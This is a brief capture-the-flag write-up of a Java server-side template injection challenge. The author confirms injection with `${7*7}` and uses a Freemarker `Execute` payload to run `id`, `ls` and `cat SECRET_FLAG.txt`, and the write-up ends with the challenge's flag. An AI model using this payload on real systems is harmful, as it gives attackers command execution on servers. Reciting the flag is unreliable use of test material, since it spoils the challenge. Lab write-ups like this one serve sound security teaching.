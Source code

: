 ```yaml
---
layout: default
title: Java-Server-side-Template-Injection
---
```


By supplying `${7*7}` and recieving: `49`, we can assume `SSTI` is working here.
![SSTI PoC](./images/Java-Server-side-Template-Injection_basic_SSTI.png)

So, I simply went to [PayloadAllTheThings SSTI Java](https://swisskyrepo.github.io/PayloadsAllTheThings/Server%20Side%20Template%20Injection/Java/#freemarker-basic-injection) and grabbed this payload, which is called *Freemarker - Code Execution*
```
<#assign ex = "freemarker.template.utility.Execute"?new()>${ ex("id")}
```

Then, as you can see the command `id` executed.

So, I run `ls` and saw the file `SECRET_FLAG.txt` exists, and read it using `cat SECRET_FLAG.txt` to achieve the flag.
![FINAL img](./images/Java-Server-side-Template-Injection_FINAL.png)


**Flag:** ***`B3wareOfT3mplat3Inj3ction`***

